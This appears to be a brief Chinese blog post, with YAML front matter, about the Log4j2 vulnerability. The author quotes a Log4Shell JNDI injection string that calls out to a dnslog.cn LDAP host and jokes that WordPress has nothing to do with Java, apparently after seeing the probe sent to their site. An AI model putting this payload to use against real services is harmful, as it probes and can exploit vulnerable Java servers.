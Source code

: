 ```yaml
---
title: Java Log4j2
tags:
  - 日常
  - 网站
id: '722'
categories:
  - - 动态
date: 2021-12-21 10:07:04
---
```


${jndi:ldap://wy2gkk.dnslog.cn/exp}

笑死，Wordpress 和 Java 有半毛钱关系